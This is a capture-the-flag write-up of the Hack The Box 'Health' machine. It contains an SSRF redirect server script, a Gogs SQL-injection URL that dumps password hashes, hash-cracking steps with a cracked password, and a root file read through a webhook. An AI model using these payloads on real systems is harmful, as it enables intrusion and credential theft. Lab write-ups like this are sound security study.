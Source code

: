 ```yaml
---
title: "HTB - Health"
date: 2023-03-11T18:19:48+01:00
draft: false
tags: [HTB, Medium, Linux, mysql, ssrf, gogs, LFI ]
---
```


## Foothold
### Nmap
```
PORT STATE SERVICE VERSION  
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:  
| 2048 32:b7:f4:d4:2f:45:d3:30:ee:12:3b:03:67:bb:e6:31 (RSA)  
| 256 86:e1:5d:8c:29:39:ac:d7:e8:15:e6:49:e2:35:ed:0c (ECDSA)  
|_ 256 ef:6b:ad:64:d5:e4:5b:3e:66:79:49:f4:ec:4c:23:9f (ED25519)  
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))  
|_http-title: HTTP Monitoring Tool  
3000/tcp filtered ppp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Classic box with filtered port on *3000*

SSRF on webhook app:

We can use this script to exploit the vuln:

```python
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 2:
    print("Usage: {} <port_number> <url>".format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.send_response(302)
       self.send_header('Location', sys.argv[2])
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```

We discover a *Gogs* service running on the port *3000*. We can exploit it using a known CVE. Redirecting the request on this url, we can execute SQL code:
````txt
http://127.0.0.1:3000/api/v1/users/search?q=%27)/**/union/**/all/**/select/**/1,1,(select/**/passwd/**/from/**/user),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1--
````


## User

We got an user `susanne` with a salt `sO3XIbeW14` and a password `66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37`

By looking at the *gogs* source code we see that the salt needs to be converted in base64 before cracking the password.

```
> echo "sO3XIbeW14" | base64 | cut -c1-14                                                                    
c08zWEliZVcxNA
```

In order to crack the password we need to convert it first in in a binary format then convert it in base64

```
> echo "66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37" | xxd -r -p | base64
ZsB0ZFVFeB8QZPt/0Rd0U9uPDKLOWKnYHAS+Lm07oqDWwDLw/U74P0jXQ0nsGW9O/jc=
```

Using hascat on the hash we can crack the password: `february15`

We can now login on ssh using the password 

got user.txt

## LPE

We access the mysql creds in the .env inside the code folder

Cron job : `TRUNCATE` of table `tasks` ran as root.

We can modify the table and add `file:///root/root.txt` and create a webhook 